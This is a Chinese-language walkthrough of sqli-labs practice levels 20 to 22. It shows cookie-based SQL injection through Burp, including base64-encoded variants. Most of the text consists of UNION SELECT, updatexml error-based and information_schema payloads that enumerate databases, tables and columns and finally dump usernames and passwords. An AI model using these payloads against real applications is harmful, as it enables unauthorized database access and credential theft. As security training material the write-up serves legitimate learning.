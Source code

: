
# Sqli-labs-Less-20
**使用admin登录**<br />1.登录成功之后会显示cookie<br />2. 登录失败会显示失败信息。<br />![](https://img-blog.csdnimg.cn/20200720155032941.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=ca1hD&originHeight=361&originWidth=1189&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**说明我们需要修改Cookie来进行注入，使用burp抓包**

在coolie值后面加一个'报错，说明存在注入<br />![](https://img-blog.csdnimg.cn/20200720155438903.png#crop=0&crop=0&crop=1&crop=1&id=KxiJD&originHeight=63&originWidth=193&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看当前库**<br />Cookie: uname= ' union select 1,2,database()--+（建议使用#，--+不一定适用）<br />![](https://img-blog.csdnimg.cn/2020072015593622.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=paop9&originHeight=585&originWidth=1645&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**也可使用Sqli-labs-Less-18中注入的方式**<br />Cookie: uname= ' or updatexml(1,(concat(0x7e,(select database()),0x7e)),1) and '1'='1<br />![](https://img-blog.csdnimg.cn/20200720160142227.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=Y2tbO&originHeight=515&originWidth=1859&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**查看所有库**<br />Cookie: uname= ' union select 1,2,group_concat(schema_name) from information_schema.schemata--+<br />![](https://img-blog.csdnimg.cn/20200720160527169.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=NxAEs&originHeight=647&originWidth=1911&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看security里面所有表**<br />Cookie: uname= ' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+<br />![](https://img-blog.csdnimg.cn/20200720160649826.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=Ds9j5&originHeight=637&originWidth=1762&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**查看users里面所有字段**<br />Cookie: uname= ' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+<br />![](https://img-blog.csdnimg.cn/20200720160800601.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=TYoBr&originHeight=712&originWidth=1899&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看users里面所有账户和密码**<br />Cookie: uname= ' union select 1,2,group_concat(concat_ws('~',username,password)) from security.users--+<br />![](https://img-blog.csdnimg.cn/20200720160949979.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=yyiB0&originHeight=621&originWidth=1894&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**以此类推爆出所有数据。**


# Sqli-labs-Less-21
使用admin进行登录<br />1.登录成功之后会显示一系列信息<br />2. 登录失败会显示失败信息。<br />登录后发现uname的值不是admin而是看不懂的字符<br />![](https://img-blog.csdnimg.cn/20200720161710326.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=Ac5i3&originHeight=383&originWidth=1149&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

这是将admin进行base64转码 YWRtaW4= 解码之后为admin<br />和第20关相似，只不过这一次将admin进行base64转码

**使用burp抓包**<br />![](https://img-blog.csdnimg.cn/2020072016313368.png#crop=0&crop=0&crop=1&crop=1&id=ACyB7&originHeight=196&originWidth=591&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在admin后面加上'并进行编码<br />![](https://img-blog.csdnimg.cn/20200720163401296.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=UeRqH&originHeight=591&originWidth=664&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

发送后报错,显示还需要一个)
![](https://img-blog.csdnimg.cn/20200720163455724.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=lDyfG&originHeight=207&originWidth=914&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**显示当前数据库**<br />编码前：') union select 1,2,database() #<br />编码后:JykgdW5pb24gc2VsZWN0IDEsMixkYXRhYmFzZSgpICM=<br />![](https://img-blog.csdnimg.cn/20200720164044663.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=rzXOO&originHeight=652&originWidth=1743&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
以下步骤与Sqli-labs-Less-20相似<br />注意：<br />在Sqli-labs-Less-21中是'）并且需要编码<br />在Sqli-labs-Less-20中是'不需要编码


# Sqli-labs-Less-22
这一关与20关相似<br />只不过这一次将')换为"并编码即可

**查找注入点**<br />编码前：admin'<br />编码后：YWRtaW4n<br />未登录并没有提醒<br />![](https://img-blog.csdnimg.cn/20200720170910302.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=wSAl5&originHeight=367&originWidth=1180&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

编码前：admin"<br />编码后：YWRtaW4i<br />报错<br />![](https://img-blog.csdnimg.cn/20200720171107870.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=BjuyI&originHeight=259&originWidth=1317&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**加上注释**<br />编码前：admin"#<br />编码后：YWRtaW4iIw==<br />成功登录说明存在注入点<br />![](https://img-blog.csdnimg.cn/20200720171159574.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=RprmN&originHeight=294&originWidth=1144&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看当前数据库**<br />编码前：" union select 1,2,database()#<br />编码后：IiB1bmlvbiBzZWxlY3QgMSwyLGRhdGFiYXNlKCkj<br />![](https://img-blog.csdnimg.cn/20200720171317259.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=xvNqf&originHeight=247&originWidth=1257&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
以下步骤与Sqli-labs-Less-20相似<br />注意：<br />Sqli-labs-Less-20是'不需要编码<br />Sqli-labs-Less-22是"并且需要编码
